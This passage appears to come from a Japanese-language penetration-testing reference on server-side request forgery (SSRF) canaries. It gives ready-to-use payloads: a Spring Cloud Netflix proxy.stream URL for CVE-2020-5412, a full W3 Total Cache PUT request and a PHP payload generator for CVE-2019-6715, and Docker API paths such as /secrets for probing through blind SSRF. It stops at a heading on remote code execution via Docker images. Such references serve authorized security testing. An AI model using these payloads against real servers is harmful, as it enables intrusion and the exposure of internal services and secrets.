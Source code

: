 **一般的にバインドされるポート: 80,443 (SSL),8080**

Spring Cloud Netflix、バージョン2.2.xの2.2.4より前、バージョン2.1.xの2.1.6より前。

**SSRF カナリア: CVE-2020-5412**
```bash
/proxy.stream?origin=http://SSRF_CANARY/
```
# W3 Total Cache

**一般的にバインドされるポート: 80,443 (SSL)**

W3 Total Cache 0.9.2.6-0.9.3

**SSRF カナリア: CVE-2019-6715**

これは PUT リクエストである必要があります:
```bash
PUT /wp-content/plugins/w3-total-cache/pub/sns.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36
Content-Length: 124
Content-Type: application/x-www-form-urlencoded
Connection: close

{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"https://SSRF_CANARY"}
```
**SSRF Canary**

この脆弱性のアドバイザリはこちらで公開されています: [W3 Total Cache SSRF vulnerability](https://klikki.fi/adv/w3\_total\_cache.html)

このPHPコードは、SSRF Canaryホストのペイロードを生成します（`url`を自分のCanaryホストに置き換えてください）:
```php
<?php

$url='http://www.google.com';
$file=strtr(base64_encode(gzdeflate($url.'#https://ajax.googleapis.com')), '+/=', '-_');
$file=chop($file,'=');
$req='/wp-content/plugins/w3-total-cache/pub/minify.php?file='.$file.'.css';
echo($req);

?>
```
# Docker

**一般的にバインドされるポート: 2375、2376 (SSL)**

部分的に盲目的なSSRFを持っている場合、次のパスを使用してDockerのAPIの存在を確認できます:
```bash
/containers/json
/secrets
/services
```
**任意のDockerイメージを実行することによるRCE**
